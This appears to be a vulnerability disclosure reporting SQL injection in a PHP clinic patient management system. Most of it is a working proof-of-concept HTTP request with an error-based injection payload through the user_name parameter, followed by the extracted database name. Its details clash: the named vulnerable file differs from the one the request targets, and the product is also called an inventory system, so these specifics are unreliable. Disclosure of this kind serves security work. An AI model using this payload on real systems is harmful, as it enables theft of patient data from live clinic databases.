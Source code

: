 ## Clinic's Patient Management System has SQL injection vulnerability

## submitter
zhangMingMing

## supplier
https://www.sourcecodester.com/php-clinics-patient-management-system-source-code
## Vulnerability file
/pms/ajax/check_medicine_name.php
## describe
An unrestricted SQL injection attack exists in an inventory management system. The parameters that can be controlled are as follows: user_name. This function executes the user_name parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.
## code analysis
The user_name parameter in check_medicine_name.php is controlled and is directly carried into the SQL statement for execution, resulting in SQL injection.

<img width="1285" alt="image" src="https://github.com/user-attachments/assets/85ede788-c1bb-4d91-93cf-1817c9d995d7">

Injection via parameter user_name
POC
```
GET /pms/ajax/check_user_name.php?user_name=admin%27%20and(updatexml(1,concat(0x7e,(select+database())),1))--%201 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

Get the database name: pms_db

<img width="1102" alt="image" src="https://github.com/user-attachments/assets/2b415704-f754-4d78-9316-b33e83877152">









